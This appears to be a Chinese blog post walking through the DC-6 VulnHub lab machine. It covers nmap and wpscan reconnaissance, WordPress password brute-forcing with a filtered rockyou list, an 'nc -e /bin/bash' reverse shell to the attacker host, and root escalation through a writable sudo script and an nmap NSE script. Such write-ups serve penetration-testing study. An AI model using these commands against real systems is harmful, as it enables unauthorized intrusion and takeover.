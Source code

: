 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      DC-6 				# 标题 
subtitle:   打靶日记之DC-6靶机 #副标题
date:       2024-07-23 				# 时间
author:     OOTAKEMARU 						# 作者
header-img: img/post-bg-dc.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 打靶日记
    - DC靶机系列
---
```


>## DC-6



### 实验环境

kali 攻击机：ip为*192.168.253.135*

DC-6 靶机 ：ip为*192.168.253.140*



### 靶机安装

①官网下载：https://download.vulnhub.com/dc/DC-6.zip；

②解压文件得到 DC-6.ova；

③用vm虚拟机打开该文件，并设置好存储路径；

④将DC-6靶机的网络适配器设置为NAT模式，同kali在同一网段。



### 渗透过程

#### 1、信息收集

##### ①主机扫描

```
arp-scan -l
```

![1.png](https://s2.loli.net/2024/07/23/aMs6biQBATE4lZz.png)

##### ②端口扫描

```
nmap -sV -p- 192.168.253.140

-sV 		扫描目标主机端口上运行的软件信息
-p-		扫描全部端口 0 ~ 65535
```

![2.png](https://s2.loli.net/2024/07/23/ZIgWhCE1s5NrmRv.png)

##### ③目录扫描

使用御剑扫描目标网站，需确保主机可以和192.168.253.140通信。

![3.png](https://s2.loli.net/2024/07/23/Hl2GzyOn6hb8kds.png)



#### 2、漏洞探测

##### 网页重定向

使用nmap工具对目标开放的端口进行详细的扫描，用-p参数指定扫描端口。

```
nmap -A -p 80 192.168.253.140

  -A：同时完成OS检测，版本检测，脚本扫描和traceroute
  -p：指定扫描端口
```

扫描发现未遵循重定向到http://wordy，即访问该url是无法成功访问的。需要在kali通过命令vim /etc/hosts打开本地hosts文件中绑定ip和域名的关系再尝试访问。

![4.png](https://s2.loli.net/2024/07/23/izsXhvjEna7ul8Y.png)

![5.png](https://s2.loli.net/2024/07/23/36fRMsKDVSh8vCn.png)

##### 页面信息探测

![6.png](https://s2.loli.net/2024/07/23/JVbhXaEfLwBicAv.png)



#### 3、漏洞利用

##### 1）暴力破解

###### ①用户名枚举

使用 *wpscan* 快速扫描出该网站的登录用户名，并将扫描出来的用户名制作成用户名字典。

![7.png](https://s2.loli.net/2024/07/23/2QGfKsa5BScYwUR.png)

![8.png](https://s2.loli.net/2024/07/23/Jfa9Yr3ZAiXQEte.png)

![9.png](https://s2.loli.net/2024/07/23/vX1dDEyRfk9eSVw.png)

###### ②制作密码字典

![10.png](https://s2.loli.net/2024/07/23/vcxrQauzM98lDTK.png)

根据提示，使用 kali 自带的巨大字典 rockyou.txt 来制作包含k01的密码字典作为爆破字典。

进入 /usr/share/wordlists/ 目录下，找到 rockyou.txt.gz 压缩包，解压出 rockyou.txt 文件，解压命令为：

```
gunzip rockyou.txt.gz
```

![11.png](https://s2.loli.net/2024/07/23/QgZCJ7aGMzcw9n8.png)

```
#利用rockyou.txt制作密码字典
cat /usr/share/wordlists/rockyou.txt | grep k01 > /root/Desktop/passwd.txt
```

![12.png](https://s2.loli.net/2024/07/23/M3J8qRrzdnofslm.png)

###### ③登录爆破

```
#利用准备好的账号字典和密码字典继续用wpscan进行网站的登录爆破
wpscan --url wordy -U user.txt -P passwd.txt
```

![13.png](https://s2.loli.net/2024/07/23/XBFesYwb3E2j9G8.png)

![14.png](https://s2.loli.net/2024/07/23/W392yZOBiKYsSTU.png)

![15.png](https://s2.loli.net/2024/07/23/IkyAOjnZ6CLS3No.png)

![16.png](https://s2.loli.net/2024/07/23/M7i3fwqjJUlAgzI.png)

##### 2）任意命令执行

![17.png](https://s2.loli.net/2024/07/23/y6f8SqT7jmKQvO4.png)

![18.png](https://s2.loli.net/2024/07/23/2p7LS6vbgocVlrY.png)

![19.png](https://s2.loli.net/2024/07/23/5CEyASjIG8wDHFb.png)

##### 3）反弹shell

id 命令可以执行，证明目标系统存在系统命令执行漏洞，尝试执行命令让目标linux系统反弹shell到本地kali。

```
本地kali监听反弹shell：nc -lvp 9999

目标系统反弹shell：nc -e /bin/bash 192.168.253.135 9999
```

![20.png](https://s2.loli.net/2024/07/23/w5pqGNsI7zKf42T.png)

![21.png](https://s2.loli.net/2024/07/23/DH1BgcWIwMCdaZl.png)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![22.png](https://s2.loli.net/2024/07/23/3cy9l8aJfFepCHk.png)

##### 4）提权

![23.png](https://s2.loli.net/2024/07/23/8q5Tg3UE2FHvMxX.png)

###### ①sudo提权

```
sudo -l
```

发现了 jens 用户的无密码命令执行文件backup.sh，即以非 jens 用户的身份就能执行 jens 家目录下的文件。

![24.png](https://s2.loli.net/2024/07/23/vxAU5mkHaLtCJzB.png)

查看该文件内容：

![25.png](https://s2.loli.net/2024/07/23/MEN7mCDUP8KiVxv.png)

尝试在脚本中添加 "/bin/bash" ， 然后以 jens用户的身份执行该脚本来直接切换到 jens用户下。

```
改写脚本的命令：echo "/bin/bash" >> /home/jens/backups.sh

执行脚本的命令：sudo -u jens /home/jens/backups.sh
```

![26.png](https://s2.loli.net/2024/07/23/BtopaT5Vjd8hUFY.png)

![27.png](https://s2.loli.net/2024/07/23/FTXtmJDQfqvLCuH.png)

###### ②nmap提权

这里可以通过 nmap 运行一个 shell 来达到提权效果。将系统命令执行脚本写入到 shell.nse 文件中：

```
echo "os.execute('/bin/bash')">/tmp/shell.nse

【PS】
.nse文件是nmap脚本，os.execute('/bin/bash')就是nse语句，它可以实现让linux操作系统执行/bin/bash程序从而获取一个shell。
```

以 root 用户权限运行 nmap 命令，运行 shell.nse 脚本：

```
sudo nmap --script=/tmp/shell.nse
```

![28.png](https://s2.loli.net/2024/07/23/l8VQJca5zpL6gED.png)



#### 4、寻找flag

提权成功后，寻找 flag 文件，并使用 cat 命令查看获得最终flag。

![29.png](https://s2.loli.net/2024/07/23/bpR4dmVPzohWaIL.png)
